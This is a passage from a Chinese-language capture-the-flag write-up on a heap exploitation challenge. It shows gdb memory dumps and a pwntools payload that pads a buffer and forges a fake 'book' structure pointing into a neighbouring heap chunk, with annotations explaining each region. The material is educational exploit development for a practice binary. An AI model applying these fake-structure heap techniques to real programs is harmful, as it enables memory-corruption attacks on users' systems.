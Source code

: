 ```python
pwndbg> x/30gx 0x0000555555757700
0x555555757700:	0x0000000000000000	0x0000000000000000 
0x555555757710:	0x0000000000000000	0x0000000000000000
0x555555757720:	0x0000000000000000	0x0000000000000000
0x555555757730:	0x0000000000000000	0x0000000000000000
0x555555757740:	0x0000000000000000	0x0000000000000000
0x555555757750:	0x0000000000000000	0x0000000000000031
0x555555757760:	0x0000000000000001	0x0000555555757670 #book1结构体范围
0x555555757770:	0x0000555555757690	0x00000000000000c8 #book1结构体范围
0x555555757780:	0x0000000000000000	0x0000000000000031 #book1结构体范围
0x555555757790:	0x0000000000000002	0x00007ffff7fc0010 #book2结构体范围
0x5555557577a0:	0x00007ffff7f9e010	0x0000000000021000 #book2结构体范围
0x5555557577b0:	0x0000000000000000	0x0000000000020851 #book2结构体范围
0x5555557577c0:	0x0000000000000000	0x0000000000000000
0x5555557577d0:	0x0000000000000000	0x0000000000000000
0x5555557577e0:	0x0000000000000000	0x0000000000000000
```

可以看到，内容是空的，接下来我们进行伪造，执行以下payload，并对其进行gdb.attach：

```python
log.info("Prepare to construct a fake book...")
payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)
#book2_addr=0x555555757790
edit(1, payload)
#gdb.attach(p)
```

> 原作者注：第一项 'a' * 0x70 是填充作用，将地址填充到目标位置，可以通过多次调试找出。
>

为了知道上述的payload是什么意思，所以我们使用kali进行查看：

（我的ubuntu查看内存地址详情为空，因此改用kali查看，内存地址不一样，但是内容大致相同）

```python
#warning：the address is in kali , not ubuntu
gdb-peda$ x/50gx 0x555555758280
0x555555758280:	0x0000000000000000	0x00000000000000d1
0x555555758290:	0x6161616161616161	0x6161616161616161 #padding_start->0x555555757690（ubuntu）
0x5555557582a0:	0x6161616161616161	0x6161616161616161
0x5555557582b0:	0x6161616161616161	0x6161616161616161
0x5555557582c0:	0x6161616161616161	0x6161616161616161
0x5555557582d0:	0x6161616161616161	0x6161616161616161
0x5555557582e0:	0x6161616161616161	0x6161616161616161
0x5555557582f0:	0x6161616161616161	0x6161616161616161 #padding_end->0x5555557576f0(ubuntu)
0x555555758300:	0x0000000000000001	0x0000555555758398 #fake_struct->0x555555757700(ubuntu)
0x555555758310:	0x0000555555758398	0x000000000000ffff #fake_struct->0x555555757700(ubuntu)
0x555555758320:	0x0000000000000000	0x0000000000000000
0x555555758330:	0x0000000000000000	0x0000000000000000
0x555555758340:	0x0000000000000000	0x0000000000000000
0x555555758350:	0x0000000000000000	0x0000000000000031
0x555555758360:	0x0000000000000001	0x0000555555758270 #book1结构体范围->0x555555757760(ubuntu)
0x555555758370:	0x0000555555758290	0x00000000000000c8 #book1结构体范围
0x555555758380:	0x0000000000000000	0x0000000000000031 #book1结构体范围
0x555555758390:	0x0000000000000002	0x00007ffff7dce010 #book2结构体范围
0x5555557583a0:	0x00007ffff7dac010	0x0000000000021000 #book2结构体范围
0x5555557583b0:	0x0000000000000000	0x000000000001fc51 #book2结构体范围
0x5555557583c0:	0x0000000000000000	0x0000000000000000
0x5555557583d0:	0x0000000000000000	0x0000000000000000
0x5555557583e0:	0x0000000000000000	0x0000000000000000
0x5555557583f0:	0x0000000000000000	0x0000000000000000
0x555555758400:	0x0000000000000000	0x0000000000000000
```
